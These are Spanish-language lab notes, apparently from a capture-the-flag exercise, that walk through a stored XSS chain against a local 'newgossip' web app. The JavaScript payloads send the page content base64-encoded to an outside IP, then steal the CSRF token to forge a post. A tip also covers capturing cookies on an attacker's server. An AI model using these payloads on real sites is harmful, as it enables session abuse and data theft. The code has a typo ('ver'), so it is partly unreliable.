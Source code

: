 - Ahora crearemos un archivo para lanzar una petición a la pagina y almacenar la respuesta en una variable 
```
nvim pwned.js
```

```
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.send();

var response = req1.responseText;
var req2 = new XMLHttpRequest();
req2.open('GET', 'http://192.168.111.45/?response=' + btoa(response));
req2.send();
```
  - Antes de esto debemos crear nuestro script en la pagina del localhost
```
<script src="http://192.168.72.130/pwned.js"></script>
```
- Entramos a la pagina creada desde el usuario test para obtener la response en **base64** y luego hacemos un 
```
echo -n "resultado" | base64 -d; echo
```
- Este comando nos permitirá encontrar el csrf token de sesion
- Una vez testiado el comando modificamos nuestro archivo para mejorar el resultado
```
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
ver data = "title=Mi%20jefe%20es%20un%20cabron&subtitle=JEFE%20CABRONASO&text=Odio%20,%20cabron&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

>**Tips o datos:**
- El **prompt("Introduce tu correo, a@a.com" );** Muestra un mensaje de alerta pidiendo su correo
- La pagina https://jwt.io nos permite observar  jason wen tocken
- se debe inhabilitar la opción de "httpOnly" así podrán capturar la cookie en su servidor.
